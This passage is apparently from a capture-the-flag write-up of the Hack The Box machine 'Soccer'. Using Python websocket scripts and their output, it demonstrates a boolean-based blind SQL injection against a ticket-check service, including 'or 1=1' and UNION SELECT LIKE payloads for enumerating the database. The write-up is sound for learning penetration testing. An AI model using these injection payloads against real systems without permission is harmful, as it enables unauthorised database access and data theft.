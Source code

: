 Signing in with the account I created, I am able to check for valid tickets. 

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/s7.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/s8.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
Looking at the traffic in burp, I see that this feature is being accomplished using a websocket.  Now I see why this box is called soccer and not football! 
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="assets/img/s9.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
With a little help from `python's` websocket library we are able to discover a boolean based blind SQL injection.


`test.py`
{% highlight python %}
import websocket, json

ws = websocket.WebSocket()
ws.connect("ws://soc-player.soccer.htb:9091")
data ={"id": "1"}  # Normal data
ws.send(str(json.dumps(data)))
result = ws.recv()
print(result)

data ={"id": "1 or 1=1"} # Injecting boolean logic 
ws.send(str(json.dumps(data)))
result = ws.recv()
print(result)
{% endhighlight %}
Running the above code I see that I am able to inject sql logic. 

{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 test.py
Ticket Doesn't Exist
Ticket Exists
{% endhighlight %}

Using [HackTricks SQL-Injection Identifying Back-End](https://book.hacktricks.xyz/pentesting-web/sql-injection#identifying-back-end) I determine that the backend is likely "MYSQL."  I am going to take a moment here to explain how I can use this boolean injection to enumerate the database.  

Looking at this example, if the database begins with the letter a.  Then the result would be "Ticket Exists".
{% highlight python %}
data ={"id": "1 UNION SELECT 1,2,3 WHERE database() like 'a%'"} # Checking to see if the database begins with the letter a
ws.send(str(json.dumps(data)))
result = ws.recv()
print(result)
{% endhighlight%}
